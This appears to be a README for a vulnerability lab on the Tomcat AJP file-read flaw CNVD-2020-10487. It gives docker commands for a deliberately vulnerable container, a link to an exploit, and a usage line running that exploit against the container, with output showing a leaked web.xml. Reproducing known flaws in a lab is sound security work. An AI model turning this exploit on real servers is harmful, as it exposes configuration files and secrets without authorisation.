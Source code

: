 # CNVD-2020-10487 Tomcat AJP LFI

## 漏洞参考：[https://www.cnvd.org.cn/webinfo/show/5415](https://www.cnvd.org.cn/webinfo/show/5415)

## 漏洞利用：

EXP： [https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/)

Usage:

```bash

docker pull chorder/vulns:env-cnvd-2020-10487-tomcat-ajp-lfi
docker run -ti chorder/vulns:env-cnvd-2020-10487-tomcat-ajp-lfi
# default container ip address is 172.17.0.2
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 172.17.0.2 
# output
Getting resource at ajp13://172.17.0.2:8009/xxxxx
----------------------------
<?xml version="1.0" encoding="ISO-8859-1"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->

<web-app xmlns="http://java.sun.com/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://java.sun.com/xml/ns/javaee
                      http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd"
  version="3.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>

```

